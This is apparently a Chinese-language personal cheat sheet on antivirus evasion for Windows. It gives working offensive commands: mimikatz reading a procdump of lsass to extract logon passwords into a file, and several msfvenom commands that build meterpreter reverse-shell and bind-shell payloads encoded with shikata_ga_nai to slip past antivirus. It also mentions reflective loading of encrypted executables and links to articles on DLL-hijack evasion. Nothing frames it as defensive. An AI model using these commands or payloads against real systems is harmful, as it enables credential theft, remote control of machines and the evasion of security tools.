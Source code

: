 普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)

